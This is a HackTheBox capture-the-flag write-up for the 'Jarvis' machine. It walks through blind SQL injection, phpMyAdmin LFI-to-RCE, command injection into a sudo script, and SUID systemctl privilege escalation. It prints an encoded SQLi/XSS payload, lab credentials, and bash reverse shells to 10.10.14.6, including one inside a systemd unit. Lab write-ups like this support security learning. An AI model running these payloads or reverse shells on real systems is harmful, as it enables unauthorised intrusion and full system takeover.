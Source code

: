 ```yaml
---
title: "HackTheBox - WriteUp 13"
date: 2019-07-13T22:31:09+08:00
description: "HackTheBox 练手 - Jarvis - SQLi+Systemd"
featuredImage: "https://alicdn.kmahyyg.xyz/asset_files/aether/cat_tech.webp"
categories: ["tech"]
draft: false
displayInMenu: false
displayInList: true
dropCap: false
---
```


# Jarvis

Nmap result: 22,80 with Apache and php.

SQLi Defender enabled, you should avoid `'` `"` `ORDER/order` `UNION/union` and also `9208%20AND%201%3D1%20UNION%20ALL%20SELECT%201%2CNULL%2C%27%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E%27%2Ctable_name%20FROM%20information_schema.tables%20WHERE%202%3E1--%2F%2A%2A%2F%3B%20EXEC%20xp_cmdshell%28%27cat%20..%2F..%2F..%2Fetc%2Fpasswd%27%29%23` in command within the request of `room.php?cod=`.

# User

Step 1: Sqli

`room.php?cod=1` Blind SQL Injection at param `cod`.

Step 2: RCE

`/phpadmin` use the credentials you just get `DBadmin:imissyou`, 

then follow the procedure here: https://blog.vulnspy.com/2018/06/21/phpMyAdmin-4-8-x-Authorited-CLI-to-RCE/

Get the cookie value of phpmyadmin: 3u5vpovmecn9md1dl7du5a4cthnul6pt

The LFI: `http://127.0.0.1:9191/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_3u5vpovmecn9md1dl7du5a4cthnul6pt`

You'll get the shell or `www-data`.

```bash
$ sudo -l
(pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
$ python3 -c "import pty;pty.spawn('/bin/sh')"
$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
```

Upload the prepared shell script and chmod 777.

```bash
#!/bin/sh
bash -c 'bash -i &>/dev/tcp/10.10.14.6/4455 0<&1'
```

Then input: `127.0.0.1$(/tmp/143.sh)`

Then you will have the user flag.

# Root

Check SUID file, found `/bin/systemctl`, then `mkdir -p ~/.config/systemd/user/`

Upload the preparde systemd service to `~/.config/systemd/user/`

The service file looks like:

```systemd
[Unit]
Description=Patrick's Telegram Bot Watchdog

[Service]
ExecStart=/bin/bash -c '/bin/bash -i &>/dev/tcp/10.10.14.6/4466 0<&1'

[Install]
WantedBy=multi-user.target
```

Then `systemctl enable --now ~/.config/systemd/user/fuckjarv4.service`

Then you have the root shell.

(END)
